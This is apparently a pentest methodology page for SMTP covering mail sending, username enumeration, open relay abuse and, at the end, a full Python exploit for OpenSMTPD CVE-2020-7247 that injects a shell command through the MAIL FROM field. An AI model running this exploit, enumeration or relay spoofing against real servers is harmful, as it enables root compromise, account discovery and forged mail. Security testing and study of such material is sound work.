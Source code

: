 # Simple Mail Transfer Protocol (SMTP) - Methodology

### SMTP client

###### Manual sender

The `telnet` or `netcat` utilities can be used to send mail through a SMTP
service:

```
telnet/nc <IP> <PORT>
HELO <DOMAIN>
334 VXNlcm5hbWU6
<BASE64_USERNAME>
334 UGFzc3dvcmQ6
<BASE64_PASSWORD>
235 authenticated.
MAIL FROM:<USERNAME>@<DOMAIN>
RCPT TO:<USERNAME>@<DOMAIN>
<DATA>
.
```

The `telnet` or `netcat` utilities do not support the use of SSL / TLS. If the
SMTP service requires the use of the SSL / TLS layer, for instance for services
exposed on the TCP port 587, the `openssl` utility can be used as basic SMTP
client:

```
openssl s_client -starttls smtp -crlf -connect <HOSTNAME | IP>:<PORT>
```   

A SMTP service exposed on the TCP port 25 may also require the use of the
SSL / TLS by only supporting the `STARTTLS` SMTP command:

```
telnet <HOSTNAME | IP> <PORT>

EHLO
[...]
250-SIZE X
250-STARTTLS
250 OK
```   

###### Automated sender

The `sendemail` utility can be used to send emails, optionally with file
attachment(s), through an exposed SMTP service:

```
sendemail -t <RCPT_EMAIL> -f <FROM_EMAIL> -u '<MAIL_SUBJECT>' -m '<MAIL_BODY>' -s <SMTP_SERVER>[:<SMTP_PORT> [-a <FILE> [<FILE2> ...]]
```

### User Enumeration

The `EXPN`, `VRFY` and `RCPT` commands can be used, if they have not been
disabled, to enumerate valid username.  

The `EXPN` command is used to reveal the actual address of users aliases and
lists of email. The `VRFY` command can confirm the existence of names of valid
users.

The enumeration can be conducted manually using the `telnet` or `netcat`
utilities or automatically using `Metasploit`, `nmap` or `smtp-user-enum`.

###### Manual enumeration

The following commands can be used to check if the `EXPN`, `VRFY` and `RCPT`
commands are available and to manually enumerate valid usernames and emails:

```
telnet/nc <IP> <PORT>
...

---

EXPN <USERNAME>
-> 250 2.1.5 <USERNAME@DOMAIN>
-> 550 5.1.1 <USERNAME>... User unknown

---

VRFY <USERNAME>
-> 250 2.1.5 <USERNAME@DOMAIN>
-> 550 5.1.1 <USERNAME>... User unknown

---

MAIL FROM: fake@localhost.com
RCPT TO: <USERNAME>
-> 250 2.1.5 <USERNAME>... Recipient ok
-> 550 5.1.1 <USERNAME>... User unknown

---
```

###### Automatic enumeration

The `smtp-user-enum` can be used to automatically enumerate usernames:

```
smtp-user-enum [-M EXPN/VRFY/RCPT ] ( -u username | -U file-of-usernames ) ( -t host | -T file-of-targets )
```

The following bash one-liner may be used as well to automatically enumerate
usernames:

```
for x in $(cat <USERFILE>); do echo VRFY $x | nc -nv -w 1 <TARGET> <PORT> 2>/dev/null | grep ^’250’; done
```

The `smtp-enum-users` `nmap` script and the `auxiliary/scanner/smtp/smtp_enum`
`Metasploit` module can be used as well.

### Open relay

An SMTP server that works as an open relay, is a email server that does not
verify if the user is authorized to send email from the specified email
address. Therefore, users would be able to send email originating from any
third-party email address.

While fully open relay is not that usual, "Partially Open Mail Relay" are more
common.  
This occurs when the mail relay can be used to do one of the following:
  - email from an external source address to an internal destination address ;
  - email from an internal source address to an internal destination address.

###### Manual exploitation

the following commands can be used to manually exploit an open relay SMTP
server:

```
telnet/nc <IP> <PORT>
HELO
# HELO <DOMAIN>
MAIL FROM:<USERNAME>@<CURRENT_DOMAIN>
RCPT TO:user@otherdom.com
DATA
.
```

If relaying is not permitted, the server should respond with an error message
"Relaying denied".

###### Automatic detection and exploitation

The `smtp-open-relay.nse` `nmap` script can be used to detect open relay.  

The `scanner/smtp/smtp_relay` `Metasploit` module can be used to exploit a
misconfigured server.

### Known vulnerabilities

###### LPE and RCE in OpenSMTPD (CVE-2020-7247)

Due to a default in the way shell metacharacters are filtered, a vulnerability
arise in `OpenBSD Simple Mail Transfer Protocol Daemon (OpenSMTPD) < 6.6.2`.
`OpenSMTPD` was initially developed for OpenBSD but is currently used by
others distros : FreeBSD, Debian, Ubuntu, Fedora, RHEL, etc.

The vulnerability permit the execution of code as root:
  - either locally if `OpenSMTPD` listens on the loopback interface and only
  accepts mail from localhost (default configuration)
  - or both locally and remotely, if `OpenSMTPD` listens on all interfaces and
  accepts external mail

More information about the vulnerability specifics:
`https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt`.

The following Proof of Concept exploit code can be used to exploit the
vulnerability:

```
# Source : https://www.exploit-db.com/exploits/47984

# Exploit Title: OpenSMTPD 6.6.2 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
#
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]

s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))

res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
    print('[!] No OpenSMTPD detected')
    print('[!] Received {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```
